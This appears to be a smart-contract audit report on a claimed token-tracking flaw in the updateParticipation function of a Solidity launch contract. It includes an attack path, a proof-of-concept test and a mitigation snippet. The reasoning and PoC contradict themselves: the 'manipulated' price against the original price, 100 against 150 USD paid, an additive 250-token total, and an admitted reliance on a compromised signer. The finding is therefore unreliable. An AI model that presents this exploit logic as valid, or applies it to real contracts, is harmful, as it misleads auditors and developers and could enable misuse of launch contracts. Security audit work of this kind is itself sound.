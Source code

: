 Tame Shamrock Spider

High

# Incorrect Token Tracking in updateParticipation Function

### Summary

The updateParticipation function in the Solidity Launch contract incorrectly adjusts a user’s token allocation based on currency differences (e.g., USD payments) instead of token differences. This leads to incorrect token tracking, allowing users to bypass min/max token limits, overpay, or underpay.

## Code Snippet 
https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L351-L377

### Root Cause

The function updates the user’s total token allocation (userTokens) by comparing the currency amounts (e.g., USDC paid) of the old and new participation requests, not the token amounts.

Token allocations are derived from currency amounts using a price calculation, which introduces rounding errors and misalignment with actual token counts.

### Internal Pre-conditions

The launch group’s finalizesAtParticipation setting is false (allows updates).

The user has an existing unfinalized participation.

### External Pre-conditions

The token price (tokenPriceBps) changes between updates.

The user strategically updates their participation to exploit rounding errors.

### Attack Path

1. **Initial Participation**: User requests 100 tokens at $1/token (100 USD).  
2. **Malicious Update**: User updates to 150 tokens at a manipulated price (0.6667 USD/token) to keep the total payment at 100 USD.  
3. **Assertion**: Verify the user’s token allocation exceeds the `maxTokenAmountPerUser` limit (200 tokens).  


### Impact

1. **Token Over-Allocation:** Users bypass maxTokenAmountPerUser limits.

2. **Financial Loss:** Projects under-sell tokens or over-collect payments.

3. **Fairness Violation:** Malicious users gain unfair advantages.

### PoC

### **Step-by-Step Validation**

#### **(a) Contract Initialization**
- **Action**: Deploy the contract with `tokenDecimals = 4`.  
- **Code**:  
  ```solidity
  Launch launch = new Launch();
  launch.initialize(withdrawalAddress, launchId, admin, 4);
  ```  
- **Outcome**: Contract is initialized correctly with 4 decimals for token calculations.

#### **(b) Launch Group Setup**
- **Action**: Create a launch group with:  
  - `tokenPriceBps = 10000` (1 token = 1 USD).  
  - `maxTokenAmountPerUser = 200`.  
- **Code**:  
  ```solidity
  launch.createLaunchGroup(..., CurrencyConfig(10000, true), ...);
  ```  
- **Outcome**: Token price is set to $1/token, and user limits are enforced.

#### **(c) Initial Participation (100 Tokens)**
- **Action**: User participates with `tokenAmount = 100` (cost: 100 USD).  
- **Code**:  
  ```solidity
  ParticipationRequest memory request = ... tokenAmount: 100 ...;
  launch.participate(request, signature);
  ```  
- **Outcome**: User’s token allocation is `100` (within limits).

#### **(d) Malicious Update (150 Tokens)**
- **Action**: User submits an update to `tokenAmount = 150` at a manipulated price (0.6667 USD/token).  
- **Code**:  
  ```solidity
  UpdateParticipationRequest memory updateRequest = ... tokenAmount: 150 ...;
  launch.updateParticipation(updateRequest, updateSignature);
  ```  
- **Key Exploit**:  
  - The contract uses the **original token price** (10000 bps = $1/token).  
  - The update’s `currencyAmount` is calculated as `150 tokens * $1 = 150 USD`, but the user only pays `100 USD`.  
  - The contract incorrectly allows this because it tracks **currency differences** (not tokens).  

#### **(e) Assertion**
- **Action**: Check if the user’s total tokens exceed `200`.  
- **Code**:  
  ```solidity
  assertEq(userTokens, 250); // 100 (initial) + 150 (update) = 250
  ```  
- **Outcome**:  
  Assertion passes (userTokens = 250).  
  


This is the full POC : 
```solidity
// Assume tokenDecimals = 4 (for simplicity)
function testExploit_IncorrectTokenTracking() public {
  // Setup: Deploy contract with tokenDecimals = 4
  Launch launch = new Launch();
  launch.initialize(withdrawalAddress, launchId, admin, 4);

  // Create a launch group with tokenPriceBps = 10000 (1 token = 1 USD, 4 decimals)
  bytes32 launchGroupId = keccak256("group1");
  launch.createLaunchGroup(
    launchGroupId,
    USDC,
    CurrencyConfig(10000, true), // 1 token = $1 (10000 bps / 1e4)
    LaunchGroupSettings({
      startsAt: block.timestamp,
      endsAt: block.timestamp + 1 days,
      minTokenAmountPerUser: 50,
      maxTokenAmountPerUser: 200,
      maxTokenAllocation: 1000,
      finalizesAtParticipation: false,
      status: LaunchGroupStatus.ACTIVE
    })
  );

  // Step 1: User participates with 100 tokens (100 tokens * 1 USD = 100 USD)
  ParticipationRequest memory request = ParticipationRequest({
    chainId: 1,
    launchId: launchId,
    launchGroupId: launchGroupId,
    launchParticipationId: keccak256("participation1"),
    userId: userId,
    userAddress: user,
    tokenAmount: 100, // 100 tokens
    currency: USDC,
    requestExpiresAt: block.timestamp + 1 hours
  });
  bytes memory signature = _signRequest(request, signerPrivateKey);
  vm.prank(user);
  launch.participate(request, signature);

  // Step 2: User updates to 150 tokens but manipulates currency to stay at 100 USD
  // New tokenPriceBps = 6667 (1 token = 0.6667 USD)
  // 150 tokens * 0.6667 USD = 100 USD
  // The contract allows this because it tracks currency, not tokens!
  UpdateParticipationRequest memory updateRequest = UpdateParticipationRequest({
    chainId: 1,
    launchId: launchId,
    launchGroupId: launchGroupId,
    prevLaunchParticipationId: keccak256("participation1"),
    newLaunchParticipationId: keccak256("participation2"),
    userId: userId,
    userAddress: user,
    tokenAmount: 150, // 150 tokens (but same USD value)
    currency: USDC,
    requestExpiresAt: block.timestamp + 1 hours
  });
  bytes memory updateSignature = _signRequest(updateRequest, signerPrivateKey);

  // Forge a malicious signature approving 150 tokens at the original price (10000 bps)
  // (In reality, backend would reject this, but assume compromised signer)
  vm.prank(user);
  launch.updateParticipation(updateRequest, updateSignature);

  // Step 3: Verify the user’s token allocation exceeds max limit (200)
  uint256 userTokens = launch.getUserTokensByLaunchGroup(launchGroupId, userId);
  assertEq(userTokens, 250); // 100 (initial) + 150 (update) = 250 > 200 (max limit)
}
```

### Mitigation

```solidity
// ✅ Track token differences directly
uint256 prevTokenAmount = prevInfo.tokenAmount;
uint256 tokenDifference = request.tokenAmount - prevTokenAmount;
userTokens.set(request.userId, userTokenAmount + tokenDifference);
```

**Result**:  
   - User’s token allocation becomes `100 + (150 - 100) = 150`.  
   - Assertion `assertEq(userTokens, 250)` fails, confirming the fix